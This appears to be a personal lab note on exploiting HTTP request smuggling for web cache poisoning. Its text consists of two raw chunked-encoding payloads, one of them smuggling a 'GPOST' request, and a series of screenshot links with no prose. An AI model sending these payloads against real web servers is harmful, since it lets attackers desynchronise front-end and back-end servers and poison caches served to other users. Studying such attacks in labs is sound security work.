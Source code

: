 
```
\r\n
0\r\n
\r\n
X
```
![[Pasted image 20240516151148.png]]


![[Pasted image 20240516151414.png]]


![[Pasted image 20240516151511.png]]


![[Pasted image 20240516151615.png]]



![[Pasted image 20240516151713.png]]


```
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 11\r\n
\r\n
x=1\r\n
0\r\n
\r\n

```
![[Pasted image 20240516152442.png]]


![[Pasted image 20240516152324.png]]

![[Pasted image 20240516152102.png]]


![[Pasted image 20240516152621.png]]


# Exploiting HTTP request smuggling to perform web cache poisoning

